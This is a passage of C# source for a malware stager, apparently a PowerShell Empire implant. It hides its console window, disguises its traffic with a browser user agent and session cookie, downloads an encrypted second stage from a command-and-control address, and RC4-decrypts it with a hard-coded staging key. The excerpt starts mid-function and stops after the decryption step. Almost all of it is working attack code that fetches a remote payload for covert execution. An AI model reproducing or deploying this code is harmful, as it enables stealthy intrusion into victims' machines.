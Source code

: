```console
                    box[a] = box[j];
                    box[j] = tmp;
                    k = box[((box[a] + box[j]) % 256)];
                    cipher[i] = (byte)(data[i] ^ k);
                }
                return cipher;
            }
 
            public static byte[] Decrypt(byte[] pwd, byte[] data)
            {
                return Encrypt(pwd, data);
            }
 
        }
 
        // Hide Windows function by our friends from StackOverFlow
        // https://stackoverflow.com/questions/34440916/hide-the-console-window-from-a-console-application
        [DllImport("kernel32.dll")]
        static extern IntPtr GetConsoleWindow();
 
        [DllImport("user32.dll")]
        static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);
 
        static void Main(string[] args)
        {
            // To Hide the ConsoleWindow (It may be a better way...)
            var handle = GetConsoleWindow();
            ShowWindow(handle, 0);
 
            // Avoid sending Expect 100 Header 
            System.Net.ServicePointManager.Expect100Continue = false;
 
            // Create a WebClient Object (No Proxy Support Included)
            WebClient wc = new WebClient();
            string ua = "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko";
            wc.Headers["User-Agent"] = ua;
            wc.Headers["Cookie"] = "session=968PH6bE9CDkwYGfsUPraz0x5PQ=";
 
            // Set the Server Address and URL 
            string server = "http://192.168.6.119:8081";
            string target = "/CWoNaJLBo/VTNeWw11212/";
 
            // Download The Data or Stage 2
            byte[] data = wc.DownloadData(server + target);
 
            // Extract IV
            byte[] iv = data.Take(4).Select(i => i).ToArray();
 
            // Remove the IV from the data
            byte[] data_noIV = data.Skip(4).ToArray();
 
            // Set Key value for decryption. PowerEmpire StageingKey value 
            string key = "fdcece0a22c10f83dccc8f17c95a33d4";
            byte[] K = Encoding.ASCII.GetBytes(key);
 
            // Combine the IV + Key (New random key each time)
            byte[] IVK = new byte[iv.Length + K.Length];
            iv.CopyTo(IVK, 0);
            K.CopyTo(IVK, iv.Length);
 
            // Decrypt the Message
            byte[] decrypted = RC4.Decrypt(IVK, data_noIV);
```